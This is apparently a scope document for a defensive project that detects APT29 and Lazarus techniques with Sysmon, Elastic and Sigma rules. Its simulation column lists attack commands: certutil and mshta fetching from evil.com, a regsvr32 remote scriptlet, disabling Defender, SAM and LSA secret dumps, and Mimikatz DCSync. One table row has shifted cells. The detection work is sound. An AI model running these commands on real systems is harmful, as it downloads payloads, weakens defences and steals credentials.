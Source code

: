 # TTP Scope – APT Detection Project

## Selected APT Groups

* **APT29 (Cozy Bear)** — stealthy intrusions, heavy PowerShell usage, credential access, process injection, DCSync.
* **Lazarus Group** — persistence via registry/run keys & startup folders, LOLBins (mshta, rundll32), SMB/WMI lateral movement, tool staging.

## Detection Scope & Data Sources

* **Windows endpoint telemetry** via **Sysmon** (EIDs 1/3/8/11/13) and **Security logs** (4662, 5140) shipped by **Winlogbeat** to **Elastic**.
* Rule languages by use-case: **KQL** (single events), **EQL** (sequence/correlation), **ES|QL** (hunting/aggregation).
* **Sigma is source of truth**; we adapt/compile to Elastic query languages.

## Techniques in Scope (with rule language & simulation plan)

| Technique ID  | Name                                             | Primary Log Source(s)                                                          | Rule Lang | Sim / Trigger                                                           | Why in Scope                             | Mapping to Groups  |      |
| ------------- | ------------------------------------------------ | ------------------------------------------------------------------------------ | --------- | ----------------------------------------------------------------------- | ---------------------------------------- | ------------------ | ---- |
| **T1059.001** | PowerShell – EncodedCommand                      | Sysmon **EID 1** (ProcessCreate)                                               | **KQL**   | `powershell.exe -enc <b64>`                                             | Common obfuscation/execution path        | APT29, Lazarus     |      |
| **T1053.005** | Scheduled Task Creation                          | Sysmon **EID 1**                                                               | **KQL**   | `schtasks /create /sc onlogon ...`                                      | Persistence & execution                  | Both               |      |
| **T1047**     | WMI Execution                                    | Sysmon **EID 1**, optional **EID 3**                                           | **KQL**   | `wmic process call create "cmd /c calc"`                                | Remote execution/lateral move            | APT29              |      |
| **T1105**     | Ingress Tool Transfer                            | Sysmon **EID 3** (NetworkConnect), **EID 1** (`certutil.exe`, `bitsadmin.exe`) | **KQL**   | `certutil -urlcache -f http://evil.com/evil.exe`                        | Tool download                            | Lazarus            |      |
| **T1547.001** | Registry Run Keys / Startup Folder Persistence   | Sysmon **EID 13** (RegistrySet), **EID 11** (FileCreate)                       | **KQL**   | `reg add HKCU\Software\...\Run /v Evil` or drop `evil.lnk` in Startup   | Lightweight persistence                  | Both               |      |
| **T1218.010** | Regsvr32 (Squiblydoo)                            | Sysmon **EID 1**                                                               | **KQL**   | `regsvr32 /s /u /i:http://... scrobj.dll`                               | Signed binary proxy execution            | APT29              |      |
| **T1218.011** | Rundll32 Proxy Execution                         | Sysmon **EID 1**                                                               | **KQL**   | `rundll32.exe javascript:...`                                           | Execution proxy                          | Both               |      |
| **T1218.005** | Mshta Execution                                  | Sysmon **EID 1**                                                               | **KQL**   | `mshta http://evil.com/payload`                                         | LOLBin abuse                             | Lazarus            |      |
| **T1112**     | Modify Registry (Security Controls / IFEO / UAC) | Sysmon **EID 13**                                                              | **KQL**   | `reg add HKLM\...\Image File Execution Options\malware.exe /v Debugger` | Defense evasion                          | Both               |      |
| **T1562.001** | Disable/Weaken Security Tools                    | Sysmon **EID 1**, **EID 13**                                                   | **KQL**   | `powershell Set-MpPreference -DisableRealtimeMonitoring $true`          | Disable Defender                         | Both               |      |
| **T1569.002** | Service Execution                                | Sysmon **EID 1**                                                               | **KQL**   | `sc create evil binpath= C:\evil.exe`                                   | Privilege escalation & persistence       | Both               |      |
| **T1055**     | Process Injection (CreateRemoteThread)           | Sysmon **EID 8** (ProcessAccess)                                               | **EQL**   | Atomic Red Team process injection                                       | Stealthier in-memory execution           | APT29              |      |
| **T1021.002** | Lateral Movement via Admin Shares                | Security **5140**, Sysmon **EID 1/11**                                         | **KQL**   | `copy evil.exe \\target\ADMIN$\`                                        | Admin share abuse                        | Lazarus            |      |
| **T1573**     | Encrypted C2 over TLS                            | Sysmon **EID 3** (NetworkConnect)                                              | \*\*ES    | QL\*\*                                                                  | Sim TLS beaconing with Cobalt Strike     | Hidden C2 channels | Both |
| **T1003.002** | SAM Dump                                         | Sysmon **EID 1**, **EID 11**                                                   | **KQL**   | `reg save hklm\sam sam.hiv`                                             | Credential access                        | APT29              |      |
| **T1003.004** | LSA Secrets Dump                                 | Sysmon **EID 1**                                                               | **KQL**   | `reg query HKLM\SECURITY\Policy\Secrets`                                | Credential access                        | APT29              |      |
| **T1003.006** | DCSync                                           | Security **4662**                                                              | **KQL**   | Mimikatz `lsadump::dcsync`                                              | Credential access via replication rights | APT29              |      |

---

## Status

* ✅ Multiple rules built, YAML + KQL/EQL/ES|QL written and tested in Elastic (Atomic Red Team used where possible).
* 🔜 Systematic testing of each rule → capture alerts + refine false positives.
* 📝 Next: finalize **ATT\&CK Navigator JSON** (mapping to APT29/Lazarus), plus detection report.

---

## Out of Scope (for this iteration)

* T1027 Obfuscated/Compressed Files & Information (content-level; high FP)
* Broader Impair Defenses (T1562 variants needing EDR policy signals beyond Defender registry/CLI)

---
